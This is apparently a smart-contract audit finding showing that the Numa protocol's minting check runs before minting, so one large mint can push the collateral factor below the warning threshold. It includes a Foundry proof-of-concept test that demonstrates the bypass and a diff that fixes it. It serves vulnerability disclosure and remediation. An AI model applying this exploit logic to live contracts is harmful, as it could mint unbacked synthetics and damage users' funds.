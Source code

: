 Small Shamrock Rook

High

# CF minimum can be bypassed when minting nuAssets

### Summary

CF is checked before minting nuAssets (instead of after), allowing CF to be massively decreased past the warning. This allows assets to be minted even past the critical CF of 110%, breaking the invariant stated in the README. 

[`NumaPrinter.mintNuAsset()`](https://github.com/sherlock-audit/2024-12-numa-audit/blob/ae1d7781efb4cb2c3a40c642887ddadeecabb97d/Numa/contracts/NumaProtocol/NumaPrinter.sol#L179) has the `notInWarningCF` modifier

```solidity
modifier notInWarningCF() {
	  uint currentCF = vaultManager.getGlobalCF();
	  require(currentCF > vaultManager.getWarningCF(), "minting forbidden");
	  _;
}
```

Invariant stated in the README is bypassed:

> New synthetics cannot be minted when CFTHEORETICAL < 110%, where CFTHEORETICAL = rETH_accountingBalance / synthetic_rETHdebt.


### Root Cause

The modifier checks the CF before the minting of the nuAssets.

This means that a user can mint a large number of nuAssets to effectively minting past the warning CF.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

_No response_

### PoC

The PoC shows that the CF goes from `1e5` to  `1.0527e4` during the mint, while the warning CF is `9.9999e4`, so the warning CF has been bypassed, and assets have effectively been minted past the warning CF which should not be allowed. 

Add the test to `Printer.t.sol`
```solidity
function test_mintPastCF() public {
    uint numaAmount = 1000001e18;

    vm.startPrank(deployer);
    numa.transfer(userA, numaAmount);
    vm.stopPrank();
    
    vm.startPrank(userA);

    // compare getNbOfNuAssetFromNuma
    (uint256 nuUSDAmount, uint fee) = moneyPrinter.getNbOfNuAssetFromNuma(
        address(nuUSD),
        numaAmount
    );
    numa.approve(address(moneyPrinter), numaAmount);

    // warning cf test block mint
    uint globalCFBefore = vaultManager.getGlobalCF();


    // put back warning cf
    vm.startPrank(deployer);
    vaultManager.setScalingParameters(
        vaultManager.cf_critical(),
        globalCFBefore - 1,
        vaultManager.cf_severe(),
        vaultManager.debaseValue(),
        vaultManager.rebaseValue(),
        1 hours,
        2 hours,
        vaultManager.minimumScale(),
        vaultManager.criticalDebaseMult()
    );

    console.log("globalCFBefore: %e", globalCFBefore);
    console.log("warningCF: %e", vaultManager.getWarningCF());

    vm.startPrank(userA);

    // slippage ok
    moneyPrinter.mintAssetFromNumaInput(
        address(nuUSD),
        numaAmount,
        nuUSDAmount,
        userA
    );

    uint globalCFAfter = vaultManager.getGlobalCF();
    uint warningCF = vaultManager.getWarningCF();

    console.log("globalCFAfter: %e", globalCFAfter);
    console.log("warningCF: %e", warningCF);

    assertGt(globalCFBefore, warningCF);
    assertLt(globalCFAfter, warningCF);
}
```

### Mitigation

Update the modifier in the following way:

```diff
modifier notInWarningCF() {
+	  _;
	  uint currentCF = vaultManager.getGlobalCF();
	  require(currentCF > vaultManager.getWarningCF(), "minting forbidden");
-	  _;
}
```

This ensures that the CF is checked after minting the nuAssets, so it can't be bypassed.